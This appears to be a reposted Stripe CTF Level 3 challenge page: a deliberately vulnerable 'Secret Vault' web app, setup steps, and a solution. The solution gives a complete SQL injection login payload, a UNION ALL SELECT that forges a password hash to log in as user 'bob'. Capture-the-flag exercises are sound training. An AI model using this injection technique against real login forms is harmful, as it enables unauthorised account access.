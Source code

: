 ## Level 3

After the fiasco back in Level 0, management has decided to fortify the Secret Safe into an unbreakable solution (kind of like [Unbreakable Linux](http://www.oracle.com/us/technologies/linux/ubreakable-enterprise-kernel-linux-173350.html)). The resulting product is Secret Vault, which is so secure that it requires human intervention to add new secrets.

A beta version has launched with some interesting secrets (including the password to access Level 4); you can check it out at https://level03-1.stripe-ctf.com/user-xxxxxxxxxx. As usual, you can fetch the code for the level (and some sample data) via `git clone https://level03-1.stripe-ctf.com/user-xxxxxxxxxx/level03-code`, or you can read the code below.

### Running

- Run `pip install flask flup`
- Run `python secretvault.py`. This will automatically generate test data for you.
- Visit `localhost:5000` in your web browser

### Solution

  * Username: `' UNION ALL SELECT id, '7a37b85c8918eac19a9089c0fa5a2ab4dce3f90528dcdeec108b23ddf3607b99' as 'password_hash', 'salt' AS 'salt' FROM users where username = 'bob' or 1='`
  * Password: `password`

Originally posted at [https://stripe-ctf.com/levels/3](https://stripe-ctf.com/levels/3).
